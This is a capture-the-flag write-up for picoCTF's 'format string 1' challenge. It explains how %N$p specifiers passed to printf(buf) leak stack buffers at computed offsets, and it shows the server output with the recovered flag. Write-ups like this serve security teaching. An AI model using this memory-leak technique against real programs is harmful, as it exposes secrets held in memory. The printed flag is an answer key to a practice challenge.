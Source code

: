# format string 1

Format-string Exploit

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/format-string-1/format-string-1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Offsets

From staring at the assembly, the following buffers are at these addresses relative to the stack frame

```c
buf => [rbp-0x410]
secret1 => [rbp-0x450]
flag => [rbp-0x490]
secret2 => [rbp-0x4d0]
```

We also realize that `rsp = rbp - 0x4d0`, and `printf(buf)` is called with one argument. So `%6$p` will start pulling off the stack and leaking the `secret2` buffer, since that refers to the seventh argument to `printf` (`%1$p` refers to the 2nd argument to `printf`, and so on). 

To get the flag, we want to read the entirety of `%14$p` to `%21$p` in ASCII. The offset `14` comes from adding 8 to 6, since `secret2` is 64 bytes (8 quadwords) long. 

## Flag

Some Python scripting then allows us to get the flag

```bash
[+] Opening connection to mimas.picoctf.net on port 64176: Done
b'picoCTF{4n1m41_57y13_4x4_f14g_5e67bcb4}\x00\x07\x00\x00\x00\x00\x00\x00\x00\xd8\x88\x85\x1c)w\x00\x00\x07\x00\x00\x00#\x00\x00\x00'
[*] Closed connection to mimas.picoctf.net port 64176
```